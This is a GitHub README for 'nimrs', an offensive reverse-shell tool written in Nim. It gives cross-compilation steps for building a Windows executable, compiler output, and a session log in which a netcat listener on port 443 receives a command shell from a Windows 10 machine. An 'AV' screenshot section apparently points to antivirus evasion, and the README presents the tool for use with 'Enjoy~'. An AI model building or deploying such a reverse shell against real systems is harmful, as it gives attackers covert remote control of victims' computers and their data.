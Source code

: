 # nimrs

portable nim (nim-lang) reverse shell 

**Supports**

Windows, Linux, MacOS

https://nim-lang.org/

**Install**

https://nim-lang.org/install.html

**Cross Compile**

https://nim-lang.org/docs/nimc.html

> Cross compilation for Windows
>
> To cross compile for Windows from Linux or macOS using the MinGW-w64 toolchain:
> 
> nim c -d:mingw myproject.nim
>
> Use --cpu:i386 or --cpu:amd64 to switch the CPU architecture.
> 
> The MinGW-w64 toolchain can be installed as follows:
> 
> Ubuntu: apt install mingw-w64
>
> CentOS: yum install mingw32-gcc | mingw64-gcc - requires EPEL
>
> OSX: brew install mingw-w64

```
WOPR@WOPR nimrs % Nim/bin/nim c -d:mingw --cpu:i386 nimrs.nim
Hint: used config file '/private/var/tmp/nimrs/Nim/config/nim.cfg' [Conf]
Hint: used config file '/private/var/tmp/nimrs/Nim/config/config.nims' [Conf]
Hint: system [Processing]
Hint: widestrs [Processing]
Hint: io [Processing]
Hint: nimrs [Processing]
Hint: net [Processing]
Hint: nativesockets [Processing]
Hint: os [Processing]
Hint: strutils [Processing]
Hint: parseutils [Processing]
Hint: math [Processing]
Hint: bitops [Processing]
Hint: macros [Processing]
Hint: algorithm [Processing]
Hint: unicode [Processing]
Hint: pathnorm [Processing]
Hint: osseps [Processing]
Hint: winlean [Processing]
Hint: dynlib [Processing]
Hint: times [Processing]
Hint: options [Processing]
Hint: typetraits [Processing]
Hint: time_t [Processing]
Hint: sets [Processing]
Hint: hashes [Processing]
Hint: monotimes [Processing]
Hint: osproc [Processing]
Hint: strtabs [Processing]
Hint: streams [Processing]
Hint: cpuinfo [Processing]
Hint: operation successful (50561 lines compiled; 0.711 sec total; 58.539MiB peakmem; Debug Build) [SuccessX]
WOPR@WOPR nimrs % file nimrs.exe 
nimrs.exe: PE32 executable (console) Intel 80386, for MS Windows
```

**Usage**

Edit nimrs.nim. 

```
root@kali:~# nc -lvp 443
listening on [any] 443 ...
192.168.116.173: inverse host lookup failed: Unknown host
connect to [192.168.116.199] from (UNKNOWN) [192.168.116.173] 50531
whoami
Microsoft Windows [Version 10.0.17763.379]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\IEUser\Downloads>whoami & echo DONEDONE
msedgewin10\ieuser

```

**AV**

<img width="1342" alt="Screenshot 2019-12-06 at 05 43 36" src="https://user-images.githubusercontent.com/56988989/70299149-fd247600-17eb-11ea-88e8-e63dc5d57364.png">


Enjoy~
